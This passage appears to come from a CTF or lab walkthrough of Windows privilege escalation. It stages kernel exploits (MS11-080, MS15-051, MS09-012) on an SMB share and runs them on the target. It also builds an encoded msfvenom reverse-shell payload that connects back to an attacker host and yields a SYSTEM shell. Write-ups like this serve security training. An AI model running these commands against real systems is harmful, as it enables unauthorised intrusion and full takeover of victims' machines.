copy \\10.10.14.25\BUBBA\ms11-080.exe %TEMP%\ms11-080.exe
%TEMP%\ms11-080.exe
```

However, this exploit did not work as expected (did not create a SYSTEM process). Next try MS15-051:

```bash
# on kali, download and host binary
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
unzip MS15-051-KB3045171.zip
sudo impacket-smbserver BUBBA .
# on target download, and run binary
copy \\10.10.14.25\BUBBA\MS15-051-KB3045171\ms15-051.exe %TEMP%\ms15-051.exe
%TEMP%\ms15-051.exe "whoami"
```

But this does not work as well? From here, switch to a previously used and reliable kernel exploit...

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012
- https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2009/ms09-012

```bash
# on kali, download and host binary/payload
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-012/pr.exe
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 7777
# on target download, and run binary
copy \\10.10.14.25\BUBBA\pr.exe %TEMP%\pr.exe
copy \\10.10.14.25\BUBBA\bubba.exe %TEMP%\bubba.exe
%TEMP%\pr.exe %TEMP%\bubba.exe
```

And this returns a SYSTEM shell:


